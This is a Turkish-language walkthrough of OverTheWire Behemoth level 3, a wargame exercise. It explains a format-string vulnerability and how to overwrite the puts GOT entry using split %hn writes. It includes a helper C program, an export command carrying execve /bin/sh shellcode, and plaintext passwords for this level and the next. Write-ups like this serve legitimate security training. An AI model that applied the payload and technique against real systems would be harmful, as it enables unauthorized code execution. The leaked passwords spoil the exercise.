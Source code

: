 # Behemoth: Level 3 Writeup

    ssh behemoth3@behemoth.labs.overthewire.org -p 2221
    password: nieteidiel

![0](img/3/0.png)

Programımızı `gdb` ile açıp incelediğimiz zaman aklımıza hemen burda bir format string zafiyeti olabileceği kuşkusu düşüyor. Vakit kaybetmeden hemen test ediyoruz bakalım cidden var mı böyle bir zafiyet...

![1](img/3/1.png)

Evet kuşkulanmakta yanılmamışız. Nur topu gibi bir format string zafiyetimiz oldu :) Zafiyeti sömürmek için ihtiyacımız olan `puts` func adresinide öğrendik.

Ancak burda bilmemiz gereken bir husus var. Eğer yazmak istediğimiz adresin decimal karşılığı çok büyükse o zaman bunu iki parça halinde yazmamız gerekecek. Yani ilk önce `0x80497ac` adresini `\xac\x97\x04\x08` ve `\xae\x97\x04\x08` olarak iki parçaya ayıracaz. Daha sonra stack alanına
yazacağımız shellcode adresinide decimal olarak iki parça halinde yazacağız. Tabi onunda bir püf noktası var öyle kafamıza göre yazamayız. Mesela adresimiz `0xffffdecb` olsun. Öncelikle düşük adres olan `0xdecb`'yi alıyoruz ve öncesinde 8 byte yazdığımız için bundan `0x8` çıkararak decimal karşılığını buluyoruz. Daha sonra yüksek adresten düşük adresi çıkararak onunda decimal karşılığını buluyoruz (`0xffff - 0xdecb = 8500` gibi)

![2](img/3/2.png)

Yazdığımız değerler ilk sırada yer aldığında `%1$n%2$n` kullanıyorduk ancak bizim durumumuzda yüksek bir değeri iki parça halinde yazmamız gerektiği ve bununda daha sonra birleşmesi gerektiği için `%1$hn%2$hn` şeklinde yazacağız. Kısaca son halinin  `%57027%1$hn%8500%2$hn` gibi olması gerekecek.

Bu kısım da anlaşıldıysa eğer shellcode'u ortam değişkeni olarak ekleyip adresini öğrenelim ve payloadımızı tamamlayalım


```C
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char* argv[]) {
  printf("%s is at %p\n", argv[1], getenv(argv[1]));
}
```


```bash
export SHELL=$(python -c 'print "\x90"*32 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "\x90"*32 ')
```


![3](img/3/3.png)

![4](img/3/4.png)

Ve gördüğümüz üzere shellcode başarıyla görevini yerine getirdi.

`behemoth4:ietheishei`

